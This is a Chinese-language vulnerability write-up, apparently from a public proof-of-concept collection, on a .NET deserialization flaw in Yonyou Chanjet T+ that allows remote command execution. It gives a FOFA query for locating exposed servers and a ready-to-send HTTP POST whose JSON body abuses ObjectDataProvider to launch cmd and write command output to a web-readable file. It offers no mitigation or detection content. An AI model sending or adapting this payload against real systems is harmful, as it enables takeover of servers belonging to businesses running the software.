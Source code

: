 ## 漏洞简介
用友 畅捷通T+ GetStoreWarehouseByStore 存在 .net反序列化漏洞，导致远程命令执行，控制服务器
## 漏洞复现
fofa语法：app="畅捷通-TPlus"
登录页面如下：
![](https://cdn.nlark.com/yuque/0/2024/png/40540518/1718718019880-8e3ef046-73e2-4b81-bb82-5ee0ba4b3a64.png#averageHue=%23a7ada7&clientId=uc19d1755-dd62-4&from=paste&id=u430ad7d8&originHeight=883&originWidth=1610&originalType=url&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&taskId=u07b99bd6-15e3-4a05-bce7-413683f8327&title=)
POC：
```makefile
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
X-Ajaxpro-Method: GetStoreWarehouseByStore
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-type: application/x-www-form-urlencoded
Content-Length: 577

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c whoami > test.txt"
        }
    }
  }
}
```
![](https://cdn.nlark.com/yuque/0/2024/png/40540518/1718718019689-f83bdd6f-d7e2-45b5-ad38-fc6908c48560.png#averageHue=%23fbfafa&clientId=uc19d1755-dd62-4&from=paste&id=uc62af326&originHeight=635&originWidth=1109&originalType=url&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&taskId=uf248781f-f3c3-4d3d-a9a1-f5e0cdd2838&title=)

访问/tplus/test.txt文件，查看命令执行结果
![](https://cdn.nlark.com/yuque/0/2024/png/40540518/1718718019802-afdad0d2-5f80-4489-b899-5ef2b403bf96.png#averageHue=%23f9f9f9&clientId=uc19d1755-dd62-4&from=paste&id=uc36faeee&originHeight=357&originWidth=1122&originalType=url&ratio=1.25&rotation=0&showTitle=false&status=done&style=none&taskId=u3da288c2-6499-4726-8f32-20aa6d36630&title=)
## 




